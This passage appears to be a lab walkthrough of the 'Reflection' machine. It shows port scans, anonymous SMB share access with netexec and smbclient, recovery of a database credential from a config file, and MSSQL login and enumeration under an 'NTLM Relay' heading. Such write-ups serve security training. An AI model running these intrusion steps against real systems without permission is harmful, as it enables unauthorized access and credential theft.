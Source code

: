 ```bash
PORT      STATE SERVICE 
135/tcp   open  msrpc   
445/tcp   open  microsoft-ds 
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman   
49671/tcp open  unknown
```
***DC01.reflection.vl***
```bash
PORT     STATE SERVICE
135/tcp  open  msrpc  
445/tcp  open  microsoft-ds 
3389/tcp open  ms-wbt-server
7680/tcp open  pando-pub
```

With a null user and any password I can list out the share and inside I found the database config file.

`netexec smb ms01.reflection.vl -u '' -p 'sz' --shares`

`smbclient \\\\\10.10.133.134\\staging -U "" --password='sz'`

![](https://photos.squarezero.dev/file/abir-images/Reflection/1.png)
![](https://photos.squarezero.dev/file/abir-images/Reflection/2.png)

Inside the config file I credential of **web_staging**.

```bash
➜  reflection cat staging_db.conf
user=web_staging
password=<..Redacted..>
db=staging
```

# NTLM Relay

Using the credentials I can log into the MSSQL server on MS01.
`mssqlclient.py 'web_staging'@10.10.133.134`

![](https://photos.squarezero.dev/file/abir-images/Reflection/4.png)

XP_CMDShell cannot be enabled. After enumerating for a while I found the credentials of dev users but they aren't domain-joined users.

```SQL
SQL (web_staging  guest@master)> SELECT name FROM master.dbo.sysdatabases
name 
-------         
master
tempdb
model
msdb
staging
     
SQL (web_staging  guest@master)> use staging      
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: staging           
[*] INFO(MS01\SQLEXPRESS): Line 1: Changed database context to 'staging'.

SQL (web_staging  dbo@staging)> SELECT table_name FROM staging.INFORMATION_SCHEMA.TABLES            
table_name      
----------      
users
     
```